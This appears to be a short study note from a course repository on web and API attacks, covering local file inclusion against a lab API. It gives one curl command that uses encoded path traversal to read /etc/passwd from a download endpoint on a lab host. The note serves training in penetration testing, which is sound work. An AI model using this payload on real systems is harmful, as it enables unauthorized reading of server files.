

# LFI

```text
http://10.129.202.133:3000/api/download
```



```bash
curl "http://10.129.202.133:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 18- Web Service & API Attacks/5 - LFI.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
